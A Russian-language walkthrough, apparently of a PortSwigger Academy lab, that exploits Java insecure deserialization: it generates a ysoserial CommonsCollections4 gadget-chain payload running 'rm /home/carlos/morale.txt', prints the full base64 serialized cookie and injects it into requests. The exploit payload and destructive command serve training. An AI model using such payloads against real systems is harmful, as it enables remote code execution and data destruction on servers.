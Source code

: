 Залогинимся под `wiener:peter`

Перейдем на домашнюю страницу и найдем данный запрос в `Proxy` -> `HTTP history`
```
Cookie: session=rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBzdmh0ejR4cmF6MWRnNHdka3ExZXp4dDkwdnBpb3o3eHQABndpZW5lcg%3d%3d
```
Прогнав через Decode получим несуразицу
```
 sr /lab.actions.common.serializable.AccessTokenUserQ' L 
accessTokent Ljava/lang/String;L usernameq ~ xpt  svhtz4xraz1dg4wdkq1ezxt90vpioz7xt wiener
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons/pics%20for%20walkthrough/1.png)

Скачаем следующую утилиту
```
https://github.com/frohoff/ysoserial?tab=readme-ov-file
```
И откроем терминал в директории, куда мы скачали утилиту

С помощью команды `java -jar ysoserial-all.jar` выведем список всех методов, которые мы можем использовать

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons/pics%20for%20walkthrough/2.png)

введем команду
```
java \                       
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
 --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
 -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```


И получим следующую куку
```
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
Y29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0
aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29y
Zy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVy
MMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVj
dGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25z
NC5UcmFuc2Zvcm1lcjs5gTr7CNo/pQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29s
bGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25z
dGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5p
bnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUu
Y29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H+k
htA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGph
dmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFz
cgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVz
SW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVj
b2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFf
b3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tb
Qkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqrK/rq+AAAAMgA5CgADACIH
ADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4B
AAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRh
YmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2Vy
aWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9y
bQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9z
dW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxl
cjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0
Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2Vy
aWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3Vu
L29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUv
eG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwv
aW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1
TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdo
YW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJp
YWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5
c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20v
c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z
bGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50
ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9H
YWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUo
KUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAacm0gL2hvbWUvY2FybG9zL21vcmFsZS50
eHQIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAy
ADMKACsANAEADVN0YWNrTWFwVGFibGUBABt5c29zZXJpYWwvUHduZXIxNjc1OTUyNzA1ODcBAB1M
eXNvc2VyaWFsL1B3bmVyMTY3NTk1MjcwNTg3OwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgA
BAABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAC8ADgAAAAwAAQAAAAUA
DwA4AAAAAQATABQAAgAMAAAAPwAAAAMAAAABsQAAAAIADQAAAAYAAQAAADQADgAAACAAAwAAAAEA
DwA4AAAAAAABABUAFgABAAAAAQAXABgAAgAZAAAABAABABoAAQATABsAAgAMAAAASQAAAAQAAAAB
sQAAAAIADQAAAAYAAQAAADgADgAAACoABAAAAAEADwA4AAAAAAABABUAFgABAAAAAQAcAB0AAgAA
AAEAHgAfAAMAGQAAAAQAAQAaAAgAKQALAAEADAAAACQAAwACAAAAD6cAAwFMuAAvEjG2ADVXsQAA
AAEANgAAAAMAAQMAAgAgAAAAAgAhABEAAAAKAAEAAgAjABAACXVxAH4AHwAAAdTK/rq+AAAAMgAb
CgADABUHABcHABgHABkBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFceZp
7jxtRxgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJp
YWJsZVRhYmxlAQAEdGhpcwEAA0ZvbwEADElubmVyQ2xhc3NlcwEAJUx5c29zZXJpYWwvcGF5bG9h
ZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHABoB
ACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbwEAEGphdmEvbGFuZy9PYmplY3QB
ABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMA
IQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAEAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEA
AAACAA0AAAAGAAEAAAA8AA4AAAAMAAEAAAAFAA8AEgAAAAIAEwAAAAIAFAARAAAACgABAAIAFgAQ
AAlwdAAEUHducnB3AQB4dXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAABdnIA
HWphdmF4LnhtbC50cmFuc2Zvcm0uVGVtcGxhdGVzAAAAAAAAAAAAAAB4cHcEAAAAA3NyABFqYXZh
LmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0L
lOCLAgAAeHAAAAABcQB+ACl4
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons/pics%20for%20walkthrough/3.png)

Уберем из полученной куки все переносы строк и вставим в рандомный запрос


в ответ все равно получим 500 реквест статус код, но пэйлоад все равно отработает и мы получим уведомление об успешном выполнении лабораторной работы


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons/pics%20for%20walkthrough/4.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons/pics%20for%20walkthrough/5.png)
